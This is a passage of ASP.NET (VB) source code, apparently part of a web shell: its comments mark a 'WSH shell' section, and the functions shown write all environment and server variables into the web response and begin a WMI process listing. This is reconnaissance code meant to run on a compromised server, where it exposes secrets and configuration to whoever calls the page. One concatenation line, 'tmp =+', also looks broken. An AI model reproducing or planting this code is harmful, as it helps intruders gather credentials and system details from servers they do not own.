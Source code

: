 	Call fileObject.DeleteFile(tempFile, True)
End sub
'End WSH shell

'System infor
Sub output_all_environment_variables(mode)
   	Dim environmentVariables As IDictionary = Environment.GetEnvironmentVariables()
   	Dim de As DictionaryEntry
	For Each de In  environmentVariables
	if mode="HTML" then
	response.write("<b> " +de.Key + " </b>: " + de.Value + "<br>")
	else
	if mode="text"
	response.write(de.Key + ": " + de.Value + vbnewline+ vbnewline)
	end if		
	end if
   	Next
End sub
Sub output_all_Server_variables(mode)
    dim item
    for each item in request.servervariables
	if mode="HTML" then
	response.write("<b>" + item + "</b> : ")
	response.write(request.servervariables(item))
	response.write("<br>")
	else
		if mode="text"
			response.write(item + " : " + request.servervariables(item) + vbnewline + vbnewline)
		end if		
	end if
    next
End sub
'End sysinfor
Function Server_variables() As String
	dim item
	dim tmp As String
	tmp=""
    for each item in request.ServerVariables
    	if request.servervariables(item) <> ""
    	'response.write(item + " : " + request.servervariables(item) + vbnewline + vbnewline)
    	tmp =+ item.ToString + " : " + request.servervariables(item).ToString + "\n\r"
    	end if
    next
    return tmp
End function
'Begin List processes
Function output_wmi_function_data(Wmi_Function,Fields_to_Show)
		dim objProcessInfo , winObj, item , Process_properties, Process_user, Process_domain
		dim fields_split, fields_item,i

		'on error resume next
